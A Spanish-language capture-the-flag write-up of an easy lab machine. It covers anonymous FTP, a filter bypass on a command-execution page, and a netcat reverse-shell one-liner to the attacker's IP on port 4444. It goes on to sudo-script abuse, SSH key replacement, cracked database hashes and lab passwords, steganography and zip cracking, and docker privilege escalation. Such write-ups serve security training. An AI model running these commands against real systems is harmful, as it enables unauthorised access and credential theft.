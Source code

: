 
# Descripción

Easy level CTF.  Capture the flags and have fun!

# Reconocimiento

![[Pasted image 20240402181021.png]]

Realizando un escaneo de puertos, podemos observar un servicio ftp, ssh y servidor http en el puerto 80. Comenzare comprobando la web y sus recursos.

![[Pasted image 20240402181258.png]]

Volviendo al escaneo podíamos ver que es posible entrar en el ftp con las credenciales anonymous:anonymous 

![[Pasted image 20240402183756.png]]

Veremos dentro del directorio un archivo llamado note.txt y lo descargaremos

![[Pasted image 20240402184007.png]]

![[Pasted image 20240402184202.png]]

Vemos un usuario potencial llamado apaar, intentaremos usar fuzzing en la web para encontrar directorios

![[Pasted image 20240402185240.png]]

Encontramos el directorio secret y podemos ver que tenemos permiso de ejecución de comandos, desde el usuario www-data

![[Pasted image 20240402185337.png]]

ahora veremos los privilegios a nivel de sistema con sudo -l , podemos ver que hay un scripte en bash llamado .helpline.sh y no requiere autenticación para ejecutar, probaremos ejecutarlo

![[Pasted image 20240402185625.png]]

![[Pasted image 20240402185841.png]]

No se puede apreciar nada destacable en el codigo fuente la función y no permite utilizar el comando ls, comentando el caracter de la siguiente forma l\\s podremos ser capaz de bypassear el filtro, he utilizado un bypass en la inyección de comandos sacadas de este repositorio:
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Command%20Injection

![[Pasted image 20240402190351.png]]

Intentaremos hacer una reverse shell y ponernos en escucha con el netcat desde la maquina victima en el puerto 

Haciendo uso del siguiente script sacado de revshells, y pasando el filtro de comandos, utilizaremos `r\m /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.14.74.176 4444 >/tmp/f
para establecer una conexión entre la maquina victima y la atacante por el puerto 4444

![[Pasted image 20240402190715.png]]

![[Pasted image 20240402190737.png]]

Obteniendo de esta manera acceso a la maquina victima dentro, haremos un tratamiento de la tty y ejecutaremos el script helpline desde el usuario apaar

`sudo -u apaar /home/apaar/.helpline.sh

Nos preguntara con quieren queremos hablar, da igual ese input, lo importante es que nos deja añadir un mensaje, dentro del mensaje añadiremos `/bin/bash` para hacer spawn de un shell desde el usuario apaar

![[Pasted image 20240402192214.png]]

Ahora somos capaces de ver la bandera, dentro de directorio home, tambien podemos ver un directorio ssh, con las claves del usuario apaar

![[Pasted image 20240402192505.png]]

Deberíamos poder cambiar nuestra credenciales ssh por las del usuario apaar para poder ingresar desde ssh, para eso generaremos nuestro propio par de claves que posteriormente utilizaremos para ingresar desde nuestra maquina atacante


Utilizaremos `ssh-keygen -t rsa` para generar un par de claves, y copiaremos la clave publica en el lugar de la autorizhed key para ingresar via ssh

![[Pasted image 20240402194427.png]]
![[Pasted image 20240402194608.png]]


Cambiaremos el rsa publico de apaar por el nuestro para logar una mejor conexión utilizando el comando echo

![[Pasted image 20240402194701.png]]

Mediante el comando `ssh -i id_rsa apaar@10.10.115.208` nos conectaremos usando las credenciales

Le daremos permisos chmod 400 al id_rsa y lograremos entrar al usuario apaar

![[Pasted image 20240402194945.png]]

Primero veamos las conexiones e interfaces de red de la maquina 

![[Pasted image 20240402195331.png]]

Podemos ver los puertos abiertos en local host 3306 de un servidor sql y el puerto 9001.

Indagando sobre el puerto 9001 podemos ver que efectivamente es un http, y un panel de autenticación con un llamado curl 

![[Pasted image 20240402195617.png]]

Por lo que posiblemente haya que desviar el trafico de la maquina victima a la nuestra para poder acceder al panel de autenticación, aunque no tenemos contraseñas, indaguemos dentro de la web para ver si hay un mal uso de reiteración de contraseñas o algo similar, veremos dentro del directorio /var/www/

![[Pasted image 20240402195119.png]]

Dentro del archivo index.php podemos ver como se hace una conexión directa a la base de datos con las credenciales en texto plano

![[Pasted image 20240402200000.png]]

Usuario: root
Contraseña: !@m+her00+@db

Realizaremos una conexión local a la base de datos para verificar si las credenciales son validas con el usuario root y efectivamente comprobamos que son validas, veamos las bases de datos y sus tablas en busca de usuarios o datos relevantes 

![[Pasted image 20240402200524.png]]

Buscamos dentro de las bases de datos, encontramos webportal, y dentro un tabla llamada users, podriamos ver si este usuario existe a nive de sistema y si a reutilizado las contraseña. 

![[Pasted image 20240402200716.png]]
1 | Anurodh   | Acharya  | Aurick    | 7e53614ced3640d5de23f111806cc4fd 
2 | Apaar     | Dahal    | cullapaar | 686216240e5af30df0501e53c789a649

copiamos los hashes, y verificaremos en crackstation, o podríamos crackearlos, en crackstation obtenemos la contraseña de anurodh

![[Pasted image 20240402200939.png]]
masterpassword

y la contraseña de apaar 

![[Pasted image 20240402201015.png]]
dontaskdonttell

veremos los usuarios que existen a nivel de sistema, intentaremos conectarnos con las credenciales que nos han dado.

![[Pasted image 20240402201127.png]]

Haremos un portfortwarding con ssh, a la web que vimos previamente con curl de la siguiente forma `ssh -L 9001:127.0.0.1:9001 -i id_rsa apaar@10.10.115.208` y conseguimos el portforward accendiendo a localhost:9001

![[Pasted image 20240402202043.png]]

Ninguna credencial anterior funciona, podríamos hacer un ataque de fuerza bruta, o intentar sqli, pero nada da resultados, encontramos una pagina llamada hacker.php

![[Pasted image 20240402202456.png]]

![[Pasted image 20240402202535.png]]

Vemos que lo único que ofrece esta pagina es una imagen, intentemos descargar la imagen en nuestro kali

![[Pasted image 20240402202819.png]]

Intente probar si era capaz de ver metadata o algo similar y utilizando steghide fui capaz de identificar un archivo anexado a la imagen llamado backup.zip con un archivo llamado source_code.php
`steghide extract -sf hacker-with-laptop_23-2147985341.jpg`
![[Pasted image 20240402203258.png]]

Intentaremos crackear la contraseña con zip2john, y ver si es posible encontrar las credenciales correctas 
zip2john backup.zip > hash

![[Pasted image 20240402203436.png]]
![[Pasted image 20240402203753.png]]

Encontramos la contraseña para poder descomprimir el archivo, y veamos que tiene source_code.php

![[Pasted image 20240402203906.png]]

Volvemos a encontrar contraseñas, en base 64, convertiremos esto en string para poder verla en texto plano 

![[Pasted image 20240402205001.png]]

Ahora intentaremos conectarnos con el usuario Anurodh, utlizando las credenciales !d0ntKn0wmYp@ssw0rd

![[Pasted image 20240402204315.png]]

y efectivamente estamos dentro del usuario, podemos observar que tiene permisos 999 dentro de un docker, en una busquead por GTFObins

![[Pasted image 20240402204546.png]]

![[Pasted image 20240402204700.png]]

y obtenemos la bandera de root

![[Pasted image 20240402204830.png]]